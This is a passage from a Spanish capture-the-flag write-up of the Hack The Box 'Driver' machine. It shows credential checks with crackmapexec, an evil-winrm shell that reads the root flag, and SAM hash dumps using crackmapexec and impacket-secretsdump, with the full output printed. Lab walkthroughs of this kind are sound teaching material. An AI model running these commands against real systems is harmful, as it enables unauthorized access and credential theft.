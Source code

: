 - Ahora comprobamos con `crackmapexec`.

```bash
➜  content crackmapexec smb 10.129.250.229 -u miguelito -p miguel123
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\miguelito:miguel123 (Pwn3d!)
```

## Shell as Administrator and root flag

- Ahora ya simplemente nos conectamos y podemos leer la flag.

```bash
➜  content evil-winrm -i 10.129.250.229 -u miguelito -p miguel123

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\miguelito\Documents> type C:\Users\Administrator\Desktop\root.txt
fce5289973391fd96a5db6dc2301f1cd
```

- En caso de que queramos conectarnos como el usuario **Administrator** simplemente podemos `dumpear` la `sam` y ver los hashes.

```bash
➜  content crackmapexec smb 10.129.250.229 -u miguelito -p miguel123 --sam
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\miguelito:miguel123 (Pwn3d!)
SMB         10.129.250.229  445    DRIVER           [+] Dumping SAM hashes
SMB         10.129.250.229  445    DRIVER           Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::
SMB         10.129.250.229  445    DRIVER           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.250.229  445    DRIVER           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.250.229  445    DRIVER           tony:1003:aad3b435b51404eeaad3b435b51404ee:dfdb5b520de42ca5d1b84ce61553d085:::
SMB         10.129.250.229  445    DRIVER           miguelito:1004:aad3b435b51404eeaad3b435b51404ee:0ddc9e8df3c8843f75a918df65dda6ee:::
SMB         10.129.250.229  445    DRIVER           [+] Added 5 SAM hashes to the database
```

- También lo podemos hacer con `impacket-secretsdump`.

```bash
➜  content impacket-secretsdump 'driver.htb/miguelito:miguel123@10.129.250.229'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe5b3cda034afd685bc69ccd3c4e9387c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tony:1003:aad3b435b51404eeaad3b435b51404ee:dfdb5b520de42ca5d1b84ce61553d085:::
miguelito:1004:aad3b435b51404eeaad3b435b51404ee:0ddc9e8df3c8843f75a918df65dda6ee:::
```
